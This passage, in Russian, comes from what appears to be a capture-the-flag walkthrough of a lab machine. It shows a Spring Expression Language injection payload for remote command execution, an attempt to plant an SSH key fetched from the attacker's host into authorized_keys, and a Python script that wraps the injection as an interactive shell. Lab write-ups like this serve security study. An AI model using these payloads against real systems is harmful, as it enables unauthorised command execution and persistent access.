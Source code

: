 От­даем скрип­ту коман­ду id и получа­ем коман­ду curl с наг­рузкой.

![[Pasted image 20230212155428.png]]

Соз­дание наг­рузки

```
curl http://10.10.11.170:8080/search -d 'name=*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(105).concat(T(java.lang.Character).toString(100))).getInputStream())}'
```

![[Pasted image 20230212155516.png]]

Ре­зуль­тат выпол­нения коман­ды на сер­вере

И мы видим вывод коман­ды и поль­зовате­ля, от име­ни которо­го она выпол­няет­ся. Давай поп­робу­ем соз­дать каталог .ssh и записать в него ключ SSH. Одна­ко при под­клю­чении у нас все рав­но зап­рашива­ют пароль.

```
mkdir /home/woodenk/.ssh
curl 10.10.14.23/id_rsa.pub -o /home/woodenk/.ssh/authorized_keys
chmod 0600 /home/woodenk/.ssh/authorized_keys
```

![[Pasted image 20230212155546.png]]

Под­клю­чение к SSH

Так получит­ся работать толь­ко через RCE, поэто­му приш­лось прев­ратить наш генера­тор в более‑менее удоб­ный шелл.

```
import requests

while True:

   inp = input("CMD > ")

   payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(" + str(ord(inp[0])) + ")"

   for i in inp[1:]:

       payload += ".concat(T(java.lang.Character).toString(" + str(ord(i)) + "))"

   payload += ").getInputStream())}"

   data = {"name": payload}

   r = requests.post("http://10.10.11.170:8080/search", data=data)

   q_start = r.content.decode().index("You searched for:") + 18
   q_end = r.content.decode().index("</h2>")

   print(r.content.decode()[q_start:q_end])
```
